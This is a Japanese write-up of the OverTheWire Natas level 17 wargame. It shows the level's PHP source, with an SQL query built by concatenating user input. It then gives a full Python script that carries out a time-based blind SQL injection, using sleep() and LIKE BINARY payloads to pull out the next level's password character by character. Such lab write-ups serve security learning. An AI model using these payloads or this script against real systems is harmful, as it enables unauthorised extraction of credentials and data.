



  

"Username"が存在するかチェックすることができるらしい。  

適当に"test"と入力してみると、  

  


何も表示されない。  

ソースコードを見てみる。  

```
 <html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas17", "pass": "<censored>" };</script></head>
<body>
<h1>natas17</h1>
<div id="content">
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas17', '<censored>');
    mysqli_select_db($link, 'natas17');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

この部分、  
```
    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }
```
ユーザーが存在してもしなくてもコメントアウトされているため何も返されないように書かれている。  


```

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }
```

DBへのクエリを組んでいるコードを見てみるとこのようになっており、  
GETメソッドの"debug"パラメータで$queryのdebugを行えるらしい。  

以下のリクエストを送ってみると、  
```
http://natas17.natas.labs.overthewire.org/index.php?debug&username=hoge
```

  


今回もSQL Injectionを試みる問題だと思うが、  
エラーメッセージもレスポンスは何もないのでBlind SQL InjectionのTime-basedのSQL攻撃を行います。  


最初に`natas18" and password like binary "%{c}%" and sleep({delay}) and "1"="1'`のようなクエリで、  
パスワード（flag）に含まれる文字を探索していき、  
`natas18" and password like binary "{tmp_passw}%" and sleep(1) and "1" = "1`で、  
パスワードの文字の順番を確定していく。  

それらを行う以下のpythonコードを実行してクリア  

```
import requests
import time
import string


url = "http://natas17.natas.labs.overthewire.org/"
user = "natas17"
passw = "***************************"

session1 = requests.Session()
charset = string.ascii_letters + string.digits  # 使用する文字セット
delay = 1  # sleep秒数
timeout_threshold = delay + 0.5  # 応答遅延判定の閾値

# 該当する文字を含んでいるかを確認（like + sleep）
def test_character(c):
    data = {
        'username': f'natas18" and password like binary "%{c}%" and sleep({delay}) and "1"="1'
    }

    start = time.time()
    try:
        response = session1.post(url, data=data, auth=(user, passw), timeout=timeout_threshold)
        elapsed = time.time() - start
        return elapsed >= delay
    except requests.exceptions.ReadTimeout:
        return True  # タイムアウトしたらsleepが実行されたとみなす

if __name__ == "__main__":
    print("Testing characters in password using LIKE and sleep():")
    found_chars = ""
    for c in charset:
        if test_character(c):
            found_chars += c
            print(f"[+] Character likely present in password: {c}")
    print("\n[+] Possible characters in password:", found_chars)

    restored_passw = ""
    for _ in range(32):
        for c in found_chars:
            tmp_passw = restored_passw + c
            response = session1.post(url, data = {'username' : f'natas18" and password like binary "{tmp_passw}%" and sleep(1) and "1" = "1'}, auth = (user, passw) )
            if(response.elapsed.seconds >= 1):
                restored_passw = tmp_passw
                break
    print("final result: ", restored_passw)
```
